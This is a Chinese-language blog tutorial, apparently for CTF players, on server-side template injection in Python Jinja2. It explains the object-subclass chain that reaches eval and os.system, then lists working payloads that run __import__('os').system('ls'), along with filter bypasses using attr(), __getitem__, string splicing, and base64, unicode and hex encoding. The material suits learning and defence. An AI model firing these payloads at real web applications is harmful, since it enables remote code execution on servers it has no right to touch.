






[!IMPORTANT]
漏洞讲解部分以Python语句为例
初识模版引擎
¶先来谈谈什么是模版引擎吧
在早期开发中，逻辑和页面内容通常会混杂在一起，比如php，它支持前端Javascript直接嵌入到php语句中，这种简单粗暴的方法确实有它的好处，但这样会导致这个php文件既包含业务逻辑，又包含展示逻辑，在维护时会变得很麻烦。
此外，当你实现多个功能基本相似，但具体内容不同的功能时，复制粘贴固然很好，但也架不住会遇到基本功能也需要上百行代码的编写与实现，也会让维护变得麻烦；
所以呢，为了让开发的过程更简便，最终的软件更容易维护，模板引擎就应运而生了。
模版引擎是一种软件工具或库，用于将静态模版与动态数据结合，从而生成最终的动态内容（如网页、文档或其他格式化输出）。模版引擎的核心是将逻辑与表示分离，通过模版语言来定义页面结构和样式，同时通过数据填充实现动态内容。
¶简单说说模板引擎的原理
数据渲染到模板后进行展示的过程大致如下：
对模板文件进行读取 -> 通过库中的方法进行解析 -> 将数据与模板里的占位符进行一一对应 -> 执行模板中的逻辑 -> 生成最终输出
举个例子，前端的模版文件：
1 |
|
后端的数据与渲染部分：
1 | from flask import Flask, render_template |

¶常见的模版引擎
前端：JavaScript的EJS，Vuejs等等
后端：Java的Thymeleaf（一般用于Springboot），Python的Jinja和Django，PHP的Smarty，Twig
模版注入漏洞
介绍完模板引擎，接下来就要说说它的漏洞了
¶先来说说原理
我们刚刚提到过，模版引擎会通过数据来生成动态内容，比如用户的信息页面。如果用户特意输入了一个数据，且开发者没有对输入的信息作严格地处理，那么这个数据就会变成模板内容的一部分，模板引擎在进行渲染时会执行数据中的语句，从而导致信息泄露，getshell，代码执行等问题。
¶在python中哪些方法会被利用到？
python的一些内置函数可供攻击者进行利用（也叫魔术方法）：
__class__：返回一个对象的类，也可以获得该对象的数据类型__mro__:返回当前类的继承关系，以元组的形式返回__subclasses__:返回当前类的所有子类，用于进一步利用__base__:返回当前类的直接父类__bases__:以元组的形式返回当前类的所有基类__init__:用于初始化对象，相当于构造函数，便于调用函数并传递命令或其他变量值__globals__:提供了函数可以访问的所有全局变量和函数的字典__builtins__:所有Python内置函数和异常的集合，说白了可以调用所有的Python内置函数__getitem__:通过键来访问对象的元素，相当于访问数组下标来获取对应的值__import__:用于动态导入模版
[!TIP]
插个题外话，python的数据结构分为列表，元组，字典，集合：
- 列表：有序且可变的元素集合，可以包含重复元素；
- 元组：有序但不可变的元素集合，可以包含重复元素，相对于列表来说，它是只读的；
- 字典：无序但可变的键值对集合，可以包含重复元素（也就是数组），键是唯一的（即一一对应）；
- 集合：无序但可变的元素集合，不可以包含重复元素
¶如何利用这个漏洞呢
在CTF中，我们的目标是要拿到系统里的flag，所以我们要考虑的是如何执行系统命令。在python中，能够执行系统命令的有如下方法：
1 | # os.system |
（可能会有人想到用sh库，但问题是这个库在python里面并不是自带的，你还要下载安装）
所以我们的目标就成为了如何获取os库并利用system的方法。
¶查看对象所属的类
在python中，获取一个对象的类：
1 | 对象.__class__ |
¶拿到这个对象的基类
在python中，object是所有类的基类，所有的类默认继承自它：
1 | 对象.__class__.__mro__/__base(s)__ |

¶查询这个基类的子类
在python中，子类包含了很多可用的内置方法供我们进一步的利用：
1 | 对象.__class__.__base__.__subclasses__() |

（如果我没记错的话不同版本的object的子类还是有点差别的，所以在弄ssti时要具体情况具体分析）
¶利用某个子类并将其初始化
在python中，如果需要利用一个子类时需要将其初始化，因为子类是在父类的基础上对现有功能进行扩展，不定义子类的__init__方法可能会导致子类的属性无法正常设置（就会使用父类的__init__方法)
1 | 对象.__class__.__base__.__subclasses__()[xxx].__init__ |
¶获取某个方法的全局命名空间
在python中，__globals__用于捕获函数的全局命名空间，由于 __init__ 方法是类的实例初始化方法，所以__init__.__globals__返回的实际上是这个类所在的模块的全局变量（即这个类所在的文件的全局变量，全局变量又包括：导入的模块和对象，内置变量，定义于全局的变量，类，全局函数）：
1 | 对象.__class__.__base__.__subclasses__()[xxx].__init__.__globals__ |
[!NOTE]
在这一步中，你需要注意以下几点：
- 如果你知道这个子类的其他方法时也可以把
__init__换成其他方法，但正如之前所说，__init__方法是类的实例初始化方法，相当于构造函数，是我们一定知道的，但是这个子类方法最开始我们不知道，而且不同的环境中子类中的方法可能也不同，所以我们只能用__init__；- 有的子类的
__init__函数不能通过__globals__来获取全局命名空间，因为有的子类的__init__是一个wrapper_descriptor类型，它是一种python的底层实现机制，它不具有普通函数或方法的属性，因为它是在底层C语言实现的，你没法让它来捕获python全局命名空间。像这样的类型还有method-wrapper举个例子：
2
print(type(''.__class__.__base__.__subclasses__()[i].__init__))输出结果是这样的：

¶获取全局变量中的builtins的相关函数
在python中，__builtins__是一个特殊的变量，用于访问内置模块builtins，其包含了所有的内置函数，异常和常量。刚好，我们的全局命名空间也肯定是有这个的：

1 | 对象.__class__.__base__.__subclasses__()[xxx].__init__.__globals__['__builtins__'] |

也正如刚刚所说，我们看到builtins模版有内置函数，异常和常量，而我们要用到的eval，exec就在这里面
¶利用eval，exec执行python语句
在python中，eval通常用作计算式子的，当然也可以执行Python中的任意代码，exec也是如此，所以我们可以这样利用：
1 | 对象.__class__.__base__.__subclasses__()[xxx].__init__.__globals__['__builtins__']['eval'].(式子) |
利用时需要注意的点：
¶过滤了.
.的作用是属性访问，如果学了类和结构体的话你也会清楚它的作用的。
如果被过滤了可以用这个：attr()
attr()是Jinja2的原生函数，也是一种过滤器，作用是获取对象的属性，跟getattr()差不多
''.__class__ => ''|attr('__class__')
¶过滤了[]
这个就相当于限制了下标的使用，不过我们可以用__getitem__()，它也是Python中的一个魔术方法，作用跟[]一样，输入下标即可
当然了，pop也可以，它跟__getitem__的区别是，它是移除列表中指定元素并将其返回，它不影响我们后续的访问
''.__class__.__base__.__subclasses__()[128] => ''.__class__.__base__.__subclasses__().__getitem__(128)
''.__class__.__base__.__subclasses__()[128] => ''.__class__.__base__.__subclasses__().pop(128)
¶过滤了_
可以利用request.args.payload来绕过，它相当于是返回url的查询字符串中参数payload的值
¶过滤了指定字符串
用拼接绕过：
''.__class__.__base__.__subclasses__()[128] => ''['__cla''ss__']['__bas''e__']['__subcla''sses__']()[128] => ''['__cla'+'ss__']['__bas'+'e__']['__subcla'+'sses__']()[128]
反正参数如果是字符串的话都可以用拼接
用编码绕过：
{{().__class__.__base__.__subclasses__()[128].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5zeXN0ZW0oImxzIik='.decode('base64'))}} =>
{{().__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}} =>
{{().__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('\u005f\u005f\u0069\u006d\u0070\u006f\u0072\u0074\u005f\u005f\u0028\u0022\u006f\u0073\u0022\u0029\u002e\u0073\u0079\u0073\u0074\u0065\u006d\u0028\u0022\u006c\u0073\u0022\u0029')}} =>
{{().__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x22\x6f\x73\x22\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x6c\x73\x22\x29')}}
其他可能想问的
¶什么时候用(),[]
这个就是你对python的掌握程度了。
xxx(payload)表示调用函数，payload根据函数来看看需要传什么
xxx[payload]表示索引列表中的对象，payload是它的下标或者键值
不过这么问似乎有点…（你类比于c语言也知道，()主要出现在函数啊，[]主要出现在数组啊）
¶这过滤的手段好多啊
只能说多积累就好了，建议在积累的时候多了解一下这些方法的功能是什么，大致原理是什么
有的过滤加了很多限制，多学学打组合拳

Ins0mn1a
想睡个好觉zzz......
11
1
1